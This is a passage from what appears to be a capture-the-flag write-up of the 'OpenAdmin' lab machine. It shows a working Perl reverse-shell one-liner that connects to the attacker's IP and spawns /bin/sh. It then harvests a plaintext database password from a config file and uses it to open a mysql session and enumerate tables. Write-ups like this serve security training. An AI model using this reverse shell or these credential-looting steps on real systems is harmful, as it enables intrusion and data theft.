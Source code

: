 This shell is really unstable for some reason. Let's open another reverse shell and see if that's better. This `perl` reverse shell worked nicely:

```bash
$ perl -e 'use Socket;$i="10.10.14.11";$p=1235;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```

Now we have a stable shell. Let's look for some info we can use to compromise the box.

```bash
www-data@openadmin:/var/www/ona/local/config$ cat database_settings.inc.php
<?php

$ona_contexts=array (
  'DEFAULT' =>
  array (
    'databases' =>
    array (
      0 =>
      array (
        'db_type' => 'mysqli',
        'db_host' => 'localhost',
        'db_login' => 'ona_sys',
        'db_passwd' => 'n1nj4W4rri0R!',
        'db_database' => 'ona_default',
        'db_debug' => false,
      ),
    ),
    'description' => 'Default data context',
    'context_color' => '#D3DBFF',
  ),
);

?>
```

Here's a database username and password combination: `ona_sys` and `n1nj4W4rri0R!`.

We can run this command to get a `mysql` shell with:

```bash
$ mysql --user=ona_sys --password ona_default
Enter password: # n1nj4W4rri0R!

mysql> show databases;
+--------------------+
| Database           |
+--------------------+
| information_schema |
| ona_default        |
+--------------------+
2 rows in set (0.00 sec)

mysql> use ona_default;
Database changed
mysql> show tables
    -> ;
+------------------------+
| Tables_in_ona_default  |
+------------------------+
| blocks                 |
| configuration_types    |
| configurations         |
| custom_attribute_types |
| custom_attributes      |
```